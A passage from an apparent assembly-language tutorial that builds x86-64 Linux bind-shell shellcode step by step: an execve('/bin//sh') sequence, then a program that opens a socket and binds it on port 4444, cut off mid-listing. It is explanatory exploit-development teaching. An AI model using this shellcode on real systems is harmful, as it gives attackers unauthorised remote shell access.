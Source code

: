 Then, we push another `NULL` and save the current `RSP` memory address to `RDX` as the third argument from `execve`.

```nasm
    push rax                ; NULL

    mov rdx, rsp            ; rdx points at the top of the stack
```

We push the memory address of the string "/bin//sh" to the stack and save that memory location to `RSI` as the second argument for `execve`.

```nasm
    push rdi

    mov rsi, rsp
```

We add to `RAX` the hex value `0x3b` (`59` in decimal) as the syscall number for `execve`.

```nasm
    add al, 0x3b            ; 3b is the hex value of the decimal 59 for execve
```

Finally, we execute the `execve` syscall.

```nasm
    syscall                 ; exec execve syscall
```

The whole `Assembly` program is the following:

```nasm
global _start
section .text

_start:

	; socket 
	xor rax, rax
	add al, 0x29		; 29 is the hex value of the decimal 41 for socket

	xor rdi, rdi
	add rdi, 0x2		; AF_INET numeric value from PF_INET protocol family

	xor rsi, rsi
	add rsi, 0x1		; SOCK_STREAM constant from socket_type.h

	xor rdx, rdx		; 0 value because of single protocol	

	syscall			; exec socket syscall 

	mov rdi, rax		; move sockfd (file descriptor) value into rdi

	; bind
	xor rax, rax
	push rax

	mov dword [rsp - 4], eax	; listens on all addresses (0.0.0.0)

	mov word [rsp - 6], 0x5c11	; listen on port 4444 (little endian)

	mov word [rsp - 8], 0x2		; AF_INET constant

	sub rsp, 8		; rsp points at the top of the stack

	add al, 0x31		; 31 is the hex value of the decimal 49 for bind
	
	mov rsi, rsp		; rsi now points at address struct at the top of the stack
```